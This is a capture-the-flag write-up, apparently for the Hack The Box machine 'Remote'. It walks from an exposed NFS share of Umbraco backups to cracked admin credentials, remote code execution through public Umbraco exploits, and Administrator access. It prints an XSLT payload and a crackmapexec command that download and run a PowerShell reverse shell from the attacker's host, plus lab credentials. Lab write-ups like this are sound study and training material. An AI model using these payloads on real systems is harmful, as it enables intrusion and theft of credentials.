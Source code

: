 # Remote

We find a network file system
![[Pasted image 20220713093249.png]]

Make a directory for it

```
mkdir site_backups
```

and mount it

```
sudo mount -t nfs 
```

There are a bunch of files. These appear to be the backup files for umbro CMS.

![[Pasted image 20220713093325.png]]

We find some interesting content in App_data/Umbraco.sdf

```
strings Umbraco.sdf | head -n 20
```

```
Administratoradmindefaulten-US                                                                                 
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d                                             
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

We have the following username/hash combos

```
admin:b8be16afba8c314ad33d812f22a04991b90e2aaa (SHA1)
smith:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= (HMACSHA256)
ssmith:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= (HMACSHA256)

```

We're able to crack admin's hash using crackstation
![[Pasted image 20220713101041.png]]

`admin:baconandcheese`

We can now log in, but need to use the admin's email: `admin@htb.local`

Now we can use EDB-49488 which grants RCE through Umbraco with credentials.

```
python3 49488.py -u admin@htb.local -p baconandcheese -i http://remote:80/ -c whoami
```

![[Pasted image 20220713102533.png]]

This exploit seemed limited, so I switched to a similar exploit EDB-46153

We had to make a few changes to the exploit, those are highlighted in yellow. This payload will ping our machine, we watch with Wireshark to verify RCE

![[Pasted image 20220713104157.png]]

It works!

![[Pasted image 20220713104248.png]]

Then use inmemory injection to run a Powershell reverse shell.

We use this powershell script: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

with this line added at the end

```
Invoke-PowershellTcp -Reverse -IPAddress 10.10.16.4 -Port 4444
```

and name the file `shell.ps1`

Now update our exploit payload, a few notes:
- I was getting errors and felt like it was related to the quotes so I surrounded teh whole payload in trip quotes `"""`
```xml
payload = """<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "IEX (new-object net.webclient).downloadstring('http://10.10.16.4:443/shell.ps1')"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> """;

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180:80";

```

this gives us a shell. We see the user has SeImpersonatePrivilege Enabled.

![[Pasted image 20220713120713.png]]
and the only other user worth going after is `Administrator`

![[Pasted image 20220713120800.png]]

We can use `post/windows/gather/credentials/teamviewer_passwords` in metasploit, but it requires a valid meterpreter session.
![[Pasted image 20220713121652.png]]

Lets generate a meterpreter payload, copy it over, and get a session up.

Now we run the command and get a password

![[Pasted image 20220713122134.png]]

lets try that as Administrator's password:

It works, AAND we can use smb to get a shell.

![[Pasted image 20220713122302.png]]

We'll specify the same powershell command we used earlier to get a shell.

```
crackmapexec smb 10.10.10.180 -u Administrator -p '!R3m0te!' -X "IEX (new-object net.webclient).downloadstring('http://10.10.16.4:443/shell.ps1')"
```

It worked!

![[Pasted image 20220713122535.png]]

